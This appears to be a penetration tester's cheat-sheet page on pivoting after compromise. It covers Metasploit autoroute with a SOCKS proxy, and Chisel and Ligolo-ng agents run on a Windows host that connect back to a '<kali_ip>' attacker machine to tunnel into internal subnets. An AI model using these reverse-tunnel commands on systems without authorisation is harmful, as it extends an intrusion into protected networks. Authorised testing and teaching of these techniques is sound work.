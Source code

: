 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Port_Forward
---
```


<span style="font-size: 35px; color:red"><b>Port Forward</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Metasploit</b></span>
Once you get the meterpreter session running:
```shell
use multi/manage/autoroute
```
set CMD audoadd and SESSION.
and 
```shell
use auxiliary/server/socks_proxy
```
with SRVPORT 1080 and VERSION 5.

Then run commands with <span style="color:red">proxychains4</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Chisel</b></span>
On Kali:
```shell
chisel server --reverse -port 8080
```
On Windows:
```shell
chisel.exe client <kali_ip>:8080 R:1080:socks
```

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Ligolo-ng</b></span>
VPN-like port forwarding

Config
```shell
sudo ip tuntap add user scare mode tun ligolo && sudo ip link set ligolo up
```

On Linux:
```shell
./proxy -selfcert
```

On Windows, upload <span style="color:red">agent.exe</span> and <span style="color:red">wintun.dll</span> and run:
```shell
agent.exe -connect <kali_ip>:11601 -ignore-cert
```

Once you get the session running, from <span style="color:red">proxy</span> run <span style="color:red">session</span> and select the right session, then run <span style="color:red">ifconfig</span> to check the interface (I.E. if the interface is <span style="color:red">192.168.0.30/24</span>):
```shell
sudo ip route add 192.168.0.0/24 dev ligolo
```
Add other routes in case the internal network has other reachable subnets.
Then run <span style="color:red">start</span>. No need to use <span style="color:red">proxychains</span>.
